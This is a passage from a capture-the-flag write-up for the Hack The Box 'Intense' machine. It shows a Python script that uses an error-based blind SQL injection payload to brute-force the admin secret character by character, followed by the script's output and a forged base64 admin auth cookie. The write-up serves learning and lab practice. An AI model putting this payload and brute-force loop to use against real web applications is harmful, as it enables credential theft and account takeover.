 ```python
        for char in string.printable:
            
            #range(n) starts at 0 and ends at n-1, so need to add 1 when selecting which string location to brute force
            sql_query = "' AND (SELECT CASE WHEN ((SELECT hex(substr(secret,"+str(i+1)+",1)) FROM users WHERE role=1) = hex('"+str(char)+"')) THEN 1 ELSE MATCH(1,1) END))--"
            message = requests.post(url, cookies = { "auth" : guest_secret , "Referer" : referer }, data = { "message" : sql_query }).text
            
            # since error messages start with the word "unable", use this to filter out the correct letter
            if not "unable" in message:
                print(char, sep="", end="", flush=True)
                secret += char
                break

start_time = time.time()

get_secret()

print("")
print("Total runtime: ")
print("--- %s seconds ---" % (time.time() - start_time))
```

My finalized python script was fairly short, and mostly consisted of creating a request with the SQL injection query in it.  I then iterated over all printable ASCII characters for each of the 64 positions in the secret.  I also added a little timer to see how long it would take to brute force the whole secret.

```text
┌──(zweilos㉿kali)-[~/htb/intense]
└─$ python3 ./secret-brute-force.py 
Iterating through all 64 chars in the secret: 
The secret for admin is: f1fc12010c094016def791e1435ddfdcaeccf8250e36630c0bc93285c2971105
Total runtime: 
--- 48.5825309753418 seconds ---
```

The whole brute force went pretty quickly!  From the timer I found that it took less than 50 seconds to go through the whole string.

```text
auth=username=admin;secret=f1fc12010c094016def791e1435ddfdcaeccf8250e36630c0bc93285c2971105;ÉBCJ±ØèÅÞ
b¾nTÁu µí§
sm`Æ
```

Next I crafted my new `auth` cookie, `base64`'d it, and got the result: `dXNlcm5hbWU9YWRtaW47c2VjcmV0PWYxZmMxMjAxMGMwOTQwMTZkZWY3OTFlMTQzNWRkZmRjYWVjY2Y4MjUwZTM2NjMwYzBiYzkzMjg1YzI5NzExMDU7yUJDSrHY6MXeDWIMvm6WVBrBiI11ILXthKcNc22KYMY=`

![](../../.gitbook/assets/9-broke-site.png)
